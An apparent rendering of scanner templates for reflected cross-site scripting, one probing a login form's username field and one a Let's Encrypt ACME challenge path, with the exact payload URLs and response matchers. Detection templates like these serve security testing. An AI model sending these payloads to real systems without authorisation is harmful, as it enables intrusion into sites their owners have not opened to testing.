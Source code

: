 ## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/index.php?action=login.index
  - more=0&host=0&username=%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&password=&db=&lang=en_us&expire=3

### Matchers

**Type - word**

- words
  1. ">\<script>alert(document.domain)\</script>
- part - body

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. Content-Type: text/html
- part - header

---

# Let's Encrypt - Cross-Site Scripting

## Description

- Let's Encrypt contains a cross-site scripting vulnerability when using the the ACME protocol to issue SSL certificates.
- severity - high
- tags - xss,acme

## Requests

- Method - GET

### URL

- {{BaseURL}}/.well-known/acme-challenge/%3C%3fxml%20version=%221.0%22%3f%3E%3Cx:script%20xmlns:x=%22http://www.w3.org/1999/xhtml%22%3Ealert%28document.domain%26%23x29%3B%3C/x:script%3E

### Matchers
